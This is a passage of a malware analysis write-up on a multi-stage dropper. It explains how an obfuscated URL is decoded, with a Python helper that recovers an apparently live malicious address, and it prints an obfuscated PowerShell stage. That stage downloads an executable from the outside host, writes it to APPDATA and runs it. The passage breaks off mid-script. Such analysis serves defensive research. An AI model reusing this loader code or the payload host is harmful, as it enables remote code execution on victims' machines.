 The script will create a new string which will be the URL to the next payload, the script will take the obfuscated URL string and will deobfuscate it in several steps:
1. The string will be reversed by the function `nvRClWiAJT`.
2. a for loop will iterate through the flipped string and will jump every 2 chars.
3. each iteration 2 chars will be flipped again, and in the last iteration the last char will flipped also but it won't have any effect.

Here is a quick python script that does this process:


```python
input_string = 'aht1.sen/hi/coucys.erstmaofershma//s:tpht'[::-1]
output_string = ''

for i in range(0, len(input_string), 2):
    try:
        tmp = input_string[i] + input_string[i + 1]
        output_string += tmp[::-1]
    except:
        output_string += input_string[i]

print(output_string)        
```

    https://masherofmasters.cyou/chin/se1.hta


# se1.hta
The fetched payload will be yet another powershell script:
```PowerShell
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -ExecutionPolicy UnRestricted 

function WQgtWbWK($FL, $i){
    [IO.File]::WriteAllBytes($FL, $i)
};

function APcZNMgjQ($FL){
    if($FL.EndsWith((QXUpF @(4995,5049,5057,5057))) -eq $True){
        Start-Process (QXUpF @(5063,5066,5059,5049,5057,5057,5000,4999,4995,5050,5069,5050)) $FL
    }else{
        Start-Process $FL
    }
};

function laiLJMT($eh){
    $LM = New-Object (QXUpF @(5027,5050,5065,4995,5036,5050,5047,5016,5057,5054,5050,5059,5065));
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::TLS12;
    $i = $LM.DownloadData($eh);
    return $i
};

function QXUpF($P){
    $n=4949;
    $s=$Null;
    foreach($WK in $P){
        $s+=[char]($WK-$n)
    };
    return $s
};

function deaNPih(){
    $AVYABiApT = $env:APPDATA + '\';
    $XdOFJCmMx = laiLJMT (QXUpF @(5053,5065,5065,5061,5064,5007,4996,4996,5058,5046,5064,5053,5050,5063,5060,5051,5058,5046,5064,5065,5050,5063,5064,4995,5048,5070,5060,5066,4996,5048,5053,5054,5059,4996,5064,5050,4998,4995,5050,5069,5050));
```